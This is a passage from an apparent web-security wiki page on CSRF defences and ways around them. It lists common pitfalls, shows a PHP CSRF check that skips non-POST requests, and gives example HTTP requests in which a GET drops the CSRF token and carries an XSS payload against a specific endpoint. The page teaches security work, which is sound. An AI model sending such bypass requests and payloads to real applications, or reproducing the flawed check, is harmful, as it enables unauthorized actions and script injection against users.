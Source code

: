 Understanding and implementing these defenses is crucial for maintaining the security and integrity of web applications.

#### Common pitfalls of defenses

- SameSite pitfalls: `SameSite=Lax` still allows top-level cross-site navigations like links and form GETs, so many GET-based CSRFs remain possible. See cookie matrix in [[hacking-with-cookies/README.md#Samesite|Hacking with Cookies > SameSite]].
- Header checks: Validate `Origin` when present; if both `Origin` and `Referer` are absent, fail closed. Don’t rely on substring/regex matches of `Referer` that can be bypassed with lookalike domains or crafted URLs, and note the `meta name="referrer" content="never"` suppression trick.
- Method overrides: Treat overridden methods (`_method` or override headers) as state-changing and enforce CSRF on the effective method, not just on POST.
- Login flows: Apply CSRF protections to login as well; otherwise, login CSRF enables forced re-authentication into attacker-controlled accounts, which can be chained with stored XSS.

## Defences Bypass

### From POST to GET (method-conditioned CSRF validation bypass)

Some applications only enforce CSRF validation on POST while skipping it for other verbs. A common anti-pattern in PHP looks like:

```php
public function csrf_check($fatal = true) {
  if ($_SERVER['REQUEST_METHOD'] !== 'POST') return true; // GET, HEAD, etc. bypass CSRF
  // ... validate __csrf_token here ...
}
```

If the vulnerable endpoint also accepts parameters from $_REQUEST, you can reissue the same action as a GET request and omit the CSRF token entirely. This converts a POST-only action into a GET action that succeeds without a token.

Example:

- Original POST with token (intended):
  
  ```http
  POST /index.php?module=Home&action=HomeAjax&file=HomeWidgetBlockList HTTP/1.1
  Content-Type: application/x-www-form-urlencoded

  __csrf_token=sid:...&widgetInfoList=[{"widgetId":"https://attacker<img src onerror=alert(1)>","widgetType":"URL"}]
  ```

- Bypass by switching to GET (no token):
  
  ```http
  GET /index.php?module=Home&action=HomeAjax&file=HomeWidgetBlockList&widgetInfoList=[{"widgetId":"https://attacker<img+src+onerror=alert(1)>","widgetType":"URL"}] HTTP/1.1
  ```

Notes:
- This pattern frequently appears alongside reflected XSS where responses are incorrectly served as text/html instead of application/json.
- Pairing this with XSS greatly lowers exploitation barriers because you can deliver a single GET link that both triggers the vulnerable code path and avoids CSRF checks entirely.
